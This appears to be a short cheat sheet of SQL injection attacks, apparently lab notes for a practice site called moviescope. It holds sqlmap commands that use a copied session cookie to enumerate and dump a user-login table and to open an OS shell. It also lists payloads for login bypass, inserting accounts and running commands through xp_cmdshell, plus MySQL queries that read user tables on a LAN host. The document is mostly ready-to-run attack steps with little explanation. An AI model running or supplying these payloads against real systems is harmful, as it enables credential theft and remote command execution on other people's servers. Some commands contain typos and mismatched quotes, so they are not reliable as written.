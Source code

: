 Open the vulnerable website 
Copy the cookie from the inspect element
Open the terminal to use sqlmap 
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl="; --dbs
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moveiscope --tables
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login --dump

You will get all the Useraname and Passwords of the website.
----------------------------------------------------------------------------------------------------------------

•  SQLMAP Extract DBS
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
•  Extract Tables
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
•  Extract Columns
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
•  Dump Data
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
•  OS Shell to execute commands
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
•  Login bypass
•	blah' or 1=1 --
•  Insert data into DB from login
•	blah';insert into login values ('john','apple123');
•  Create database from login
•	blah';create database mydatabase;
•  Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
----------------------------------------------------------------------------------------------------------------

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --os-shell
It opens up the Interactive OS shell.

----------------------------------------------------------------------------------------------------------------

mysql -U qdpmadmin -h 192.168.1.8 -P passwod 
show databases;
use qdpm;
show tables'
select * from users;
show databases;
use staff;
show tables;
select * from login;
select * from user;

When you have username and Password for the database.
